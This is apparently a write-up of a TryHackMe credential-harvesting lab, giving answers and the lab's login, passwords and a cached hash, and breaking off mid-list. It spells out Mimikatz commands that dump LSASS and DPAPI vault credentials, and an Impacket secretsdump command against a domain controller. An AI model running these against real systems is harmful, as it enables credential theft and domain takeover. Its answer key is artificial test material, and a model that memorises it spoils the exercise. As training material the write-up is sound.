 # [Intro to Credential Harvesting - TryHackMe](https://tryhackme.com/room/introtocredentialharvesting) | Cyanyde

Learn how credentials are stored, cached, and exposed in Windows and Active Directory environments.

## Credits

- Room type: Premium
- Created by [tryhackme](https://tryhackme.com/p/tryhackme) and [DrGonz0](https://tryhackme.com/p/DrGonz0)

## Windows & Active Directory Credential Stores

#### Provided Credentials

- User: Administrator
- Pass: N3w34829DJdd?1

### Which Windows component stores active NTLM and Kerberos credentials in memory?

> NTLM and Kerberos credentials are stored in **LSASS** memory

### What file in the C:\Windows\NTDS\ directory contains the AD database?

> The **NTDS.dit** file contains the AD database

### Which Mimikatz command exports DPAPI Vault credentials?

> **vault::cred /export** exports DPAPI vault credentials with Mimikatz

## Credential Extraction with Mimikatz

### What is Elon Tusk's Gmail password?

- RDP into first target machine using provided credentials
- *mimikatz* is provided on the desktop and *Windows Defender* is disabled
- Open powershell as administrator and run *mimikatz*
    - `.\mimikatz.exe`
    - `vault::list` to show available vaults on the system
    - `vault::cred /export` to display credentials

> Elon Tusk's Gmail password is **MyTusksAreThaB3st**

### What is svc-app's password?

- `sekurlsa::logonpasswords` within mimikatz will dump credentials stored within LSASS memory

> svc-app's password is **S3rv!c3Acc!**

## Credential Harvesting with Secretsdump

### What is drgonzo's password?

- Use *secretsdump.py* from the [Impacket](https://github.com/fortra/impacket) python module
    - `secretsdump.py WRK/Administrator:N3w34829DJdd?1@<target ip> -output local_dump` will dump the local hashes of the Domain Controller
- drgonzo's password hash information is: `TRYHACKME.LOC/drgonzo:$DCC2$10240#drgonzo#d0dc1647e45cf7364ecec3c7740fce0f:`
- Crack using *hashcat* or *johntheripper*
    - 